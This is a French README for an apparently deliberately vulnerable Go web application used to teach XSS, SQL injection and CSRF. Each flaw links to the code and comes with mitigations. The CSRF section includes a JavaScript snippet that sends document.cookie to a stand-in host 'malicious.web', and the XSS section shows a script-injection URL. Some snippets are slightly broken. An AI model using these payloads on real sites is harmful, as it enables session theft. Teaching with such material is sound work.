# pwn
C'est un petit projet fait en Go bien sympa mais pleins de failles :)

# Quickstart

### Dependencies
```bash

docker
// or go >=1.16
```

### Startup
```bash
# Docker
docker-compose up 
// docker compose up

// OR
# Go
go mod download
go build -o ./main.go
./main.go
```

### Users
```
# Admin
username  jane
username  password

# User
Petra:
username  petra
password  password
```

# Cross-Site Scripting (XSS)
Le XSS  est un type de faille de sécurité de sites internet. Le but est simplement de pouvoir attaquer une système à l'aide de scripts (JavaScript par exemple).

Dans notre cas, Go est plutôt bien armé pour éviter l'injection de scripts.

```go
// Safe
userId := url.Query().Get("uid")
```

Cette méthode permet de récupérer la valeur d'un paramètre d'une requête de façon sécurisé. Les `;` ou autres caractères sont échappés automatiquement.

La méthode `url.QueryUnescape()` permet de récupérer tous les paramètres de l'URL sans échappement.

## Failles ([Ici](https://github.com/pmlogist/pwn/blob/331363b757510c8374fe94749f862ffac43b7bf3/routes.go#L85-L93))

Dans l'application, un script peut être exécuté grace à ce code.
L'exécution de scripts comme `http://foo.bar/baz?id=<script>fetch(...)</script>` est alors possible.

## Mitigations

Comme précisé ci-dessus, une attaque XSS est motigé a l'aide de plusieurs méthodes du package `url`.
```go
foo := url.FormData("foo")
bar := url.Query().Get("foo")
// ...
```
Ces méthodes échappent la majorité des caractères et de plus les strings sont encodés au format URL. L'exécution de script est impossible dans ce cas-là.

Il faudrait préférer l'envoi de formulaire avec une méthode `POST` et récupérer les champs avec le body envoyé par la requête.
De plus, il faudrait assainir les paramètres URL et les inputs pour en éviter l'injection de scripts malicieux et de les exécuter.

# SQL Injection (SQLI)

L'injection SQL un type d’attaque discrète dans laquelle le pirate insère son propre code dans un site web afin de contourner ses mesures de sécurité et d’accéder à des données protégées.

Elle peut se faire de plusieurs manières :
- De la même manière de pour XSS, les `query params`
- En modifiant `value` des inputs en HTML
- En modifiant le `body` d'une requête
  

## Failles ([Ici](https://github.com/pmlogist/pwn/blob/331363b757510c8374fe94749f862ffac43b7bf3/repository.go#L111-L112))

Il est possible de réaliser une injection SQL à partir des divers `<input />` utilisés pour interagir avec les différentes routes.      

Dans notre application, le package standard `sql` de Go avec le driver `sqlite` ne permet
pas d'exécuter deux requêtes en simultanés. Cela ne change pas le fait l'injection SQL est possible et que les envois de requêtes SQL malicieuses sont envoyés à la base de données.  

## Migitations

Il faut assainir les inputs comme pour éviter le XSS.
Cependant, cela ne suffit pas totalement. Il faut aussi éviter l'exécution de scripts malicieux.
Il est possible en SQL de preparer les requetes et de les verifier avant de les exécuter.
Cela permet de conserver l'intégrité des données si une requete malicieuse s'infiltre.


# Cross-Site Request Forgery (CSRF)
C'est un type d'attaque qui se produit quand un site Web, un blog, un e-mail, un message instantané ou une application Web malveillant(e) oblige le navigateur Web d'un utilisateur à effectuer des opérations indésirables, sur un site de confiance où l'utilisateur est actuellement authentifié.

Notre application est protégée avec :
- un token `x-csrf` stocké dans un cookie.
- l'identifiant de l'utilisateur stocké dans un cookie.


Un token csrf est :
- Générer à chaque requête
- Stocké en mémoire et envoyé en cookie à chaque requête
- Vérifié à chaque requête


## Failles ([Ici](https://github.com/pmlogist/pwn/blob/331363b757510c8374fe94749f862ffac43b7bf3/middleware.go#L19-L24))

Même si notre système de token csrf fonctionnne, il reste assez rudimentaire.

Notre cookie est accessible avec du JavaScrit (XSS)
```javascript
// http://foo.bar/baz?=<script>script</script>
console.log(
    fetch("http://malicious.web", {
        method: "POST,
        body: JSON.stringify({cookies: document.cookie}),
        headers : {"Content-Type": "application/json" },
    });
);
```

## Mitigations
Un système de cookie est possible dans une application destinée à la production. Cependant il faut faire attention aux informations stockées car les cookies sont envoyés à chaque requête. Afin de sécuriser le cookie, les paramètres doivent être ajouté:
- `httpOnly` pour ne pas pouvoir interagir avec le cookie sur le frontend
- `MaxAge` pour expirer le cookie

```go
c := &http.Cookie{
		Name:     "x-csrf",
		Value:    randomString,
		Path:     "/",
		HttpOnly: true,
        MaxAge:   3000
	}
```